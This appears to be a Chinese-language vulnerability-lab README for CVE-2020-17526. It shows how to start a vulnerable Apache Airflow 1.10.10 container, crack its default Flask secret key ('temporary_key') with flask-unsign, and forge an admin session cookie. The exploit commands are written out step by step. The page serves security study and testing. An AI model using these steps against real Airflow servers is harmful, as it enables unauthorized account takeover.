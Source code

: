# Apache Airflow 默认密钥导致的权限绕过（CVE-2020-17526）

[中文版本(Chinese version)](README.zh-cn.md)

Apache Airflow是一款开源的，分布式任务调度框架。默认情况下，Apache Airflow无需用户认证，但管理员也可以通过指定`webserver.authenticate=True`来开启认证。

在其1.10.13版本及以前，即使开启了认证，攻击者也可以通过一个默认密钥来绕过登录，伪造任意用户。

参考链接：

- <https://lists.apache.org/thread/rxn1y1f9fco3w983vk80ps6l32rzm6t0>
- <https://kloudle.com/academy/authentication-bypass-in-apache-airflow-cve-2020-17526-and-aws-cloud-platform-compromise>

## 漏洞环境

执行如下命令启动一个Apache Airflow 1.10.10服务器：

```bash
#Initialize the database
docker-compose run airflow-init

#Start service
docker-compose up -d
```

服务器启动后，访问`http://your-ip:8080`即可查看到登录页面。

## 漏洞利用

首先，我们访问登录页面，服务器会返回一个签名后的Cookie：

```
curl -v http://localhost:8080/admin/airflow/login
```

![](1.png)

然后，使用[flask-unsign](https://github.com/Paradoxis/Flask-Unsign)这个工具来爆破签名时使用的`SECRET_KEY`：

```
flask-unsign -u -c [session from Cookie]
```

![](2.png)

Bingo，成功爆破出Key是`temporary_key`。使用这个key生成一个新的session，其中伪造`user_id`为1：

```
flask-unsign -s --secret temporary_key -c "{'user_id': '1', '_fresh': False, '_permanent': True}"
```

![](3.png)

在浏览器中使用这个新生成的session，可见已成功登录：

![](4.png)
